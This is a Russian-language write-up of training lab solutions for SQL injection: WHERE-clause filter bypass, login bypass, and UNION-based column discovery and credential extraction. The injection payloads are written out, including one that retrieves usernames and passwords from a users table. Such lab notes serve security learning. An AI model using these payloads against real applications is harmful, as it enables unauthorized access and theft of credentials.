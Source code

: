 
<b>Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data</b>
  1. Видим, что при переходе по какому-то фильтру у нас идёт SQL запрос прямо из URL
  2. Вставляем туда кавычек и черточек filter?category=Corporate+gifts' OR 1=1 --
  3. Успех
  
<b>Lab: SQL injection vulnerability allowing login bypass</b>
  1. Переходим по ссылке регистрации
  2. Вместо логина пишем administrator, вместо пароля пишем ' OR 1=1 --
  3. Успех

<b>Lab: SQL injection UNION attack, determining the number of columns returned by the query</b>
  1. Выбираем любую категорию
  2. '-- возвращают тот же результат
  3. Дописываем мжду ними UNION SELECT и пытаемся подобрать колличество столбцов, путем перечисления NULL после SELECT
  4. ' UNION SELECT NULL, NULL , NULL -- подходит 
  5. Успех
  

<b>Lab: SQL injection UNION attack, finding a column containing text</b>
  1. Из предыдушей лабы мы нашли количество столбцов - теперь перебором найдем столбец, который отвечает за текст
  2. category=Accessories' UNION SELECT NULL, '0OmNnF', 1 --
  3. Успех

<b>Lab: SQL injection UNION attack, retrieving data from other tables</b>
  1. Используем уязвимость к union атакам 
  2. Прибавляем к url сategory=Corporate+gifts' UNION SELECT username, password FROM users --
  3. В строках с описанием находим пароль администратора
  4. Вставляем это в форму
  5. Успех
 
 ![alt text](https://raw.githubusercontent.com/StonePardon/Hack_all_the_things/master/SQL/mmm_admin.png)
